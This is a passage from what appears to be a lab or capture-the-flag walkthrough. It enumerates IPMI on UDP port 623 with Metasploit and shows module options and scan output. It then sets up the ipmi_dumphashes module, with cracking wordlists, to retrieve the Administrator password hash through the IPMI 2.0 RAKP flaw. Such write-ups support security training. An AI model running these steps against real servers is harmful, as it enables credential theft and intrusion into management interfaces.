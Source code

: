 
## UDP Port 623 Enumeration

Seems to be running IPMI version 2.0.

```bash
msf6 auxiliary(scanner/ipmi/ipmi_version) > options

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.123.122   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads

msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.123.122->10.129.123.122 (1 hosts)
[+] 10.129.123.122:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

IPMI 2.0 contains a [vulnerability](https://book.hacktricks.xyz/pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval) in which it discloses the password hashes of configured users. Use the Metasploit module `scanner/ipmi/ipmi_dumphashes` to retrieve these hashes, revealing the hash of the user `Administrator`.

```bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                            Required  Description
   ----                  ---------------                            --------  -----------
   CRACK_COMMON          false                                      yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                              no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                 no        Save captured password hashes in john the ripper format
   PASS_FILE             /usr/share/metasploit-framework/data/word  yes       File containing common passwords for offline cracking, one per line
                         lists/ipmi_passwords.txt
   RHOSTS                10.129.123.122                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/
                                                                              Using-Metasploit
   RPORT                 623                                        yes       The target port
   SESSION_MAX_ATTEMPTS  5                                          yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                                          yes       Delay between session retries in seconds
   THREADS               1                                          yes       The number of concurrent threads (max one per host)
   USER_FILE             /usr/share/metasploit-framework/data/word  yes       File containing usernames, one per line
                         lists/ipmi_users.txt

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

```